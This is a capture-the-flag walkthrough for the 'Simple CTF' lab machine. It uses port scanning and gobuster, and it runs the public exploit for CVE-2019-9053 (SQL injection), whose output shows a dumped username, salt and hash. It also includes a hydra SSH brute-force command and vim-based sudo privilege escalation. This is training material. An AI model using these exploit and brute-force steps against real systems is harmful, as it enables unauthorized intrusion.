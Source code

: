 # Machine NAME : Simple CTF
# Machine IP   : 10.10.126.194

***TASK 1 : How many services are running under port 1000?***<br>
: 2 <br>
: Reference file :  Gathering/SimpleCTF_Scanning.txt

***TASK 2 : What is running on the higher port?***<br>
: ssh

***TASK 3 : What's the CVE you're using against the application?***<br>
: CVE-2019-9053 <br>

&nbsp; SITE MAP SCANING : gobuster (Reference file : Gathering/SimpleCTF_gobuster.txt)<br>
&nbsp; 1.EXPLOIT-DB LINK : https://www.exploit-db.com/exploits/46635 <br>
&nbsp; 2.convert python2 to python3 command : 2to3 -w {file_name} <br>
&nbsp; 3.command :./46635.py -u http://{ip}/{dir}/ <br>
&nbsp;&nbsp;[+] Salt for password found: 1dac0d92e9fa6bb2 <br>
&nbsp;&nbsp;[+] Username found: mitch <br>
&nbsp;&nbsp;[+] Email found: admin3@ <br>
&nbsp;&nbsp;[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96 <br>

***TASK 4: To what kind of vulnerability is the application vulnerable?***<br>
: sqli <br>

***TASK 5: What's the password?*** <br>
: password is secret <br>
&nbsp; : PASSWORD BRUTE FORCING (Hydra) <br>
&nbsp; : hydra -l mitch -p rockyou.txt ssh://{ip}/

***TASK6 : Where can you login with the details obtained?***<br>
: ssh

***TASK 7 : What's the user flag?*** <br>
Do it 

***TASK 8: Is there any other user in the home directory? What's its name?***<br>
:sunbath

***TASK 9 :	What can you leverage to spawn a privileged shell?*** <br>
:vim

***TASK 10 : What's the root flag?***<br>
&nbsp; command : sudo -l <br>
&nbsp; command : vim privilge escalate!<br>
Do it! 
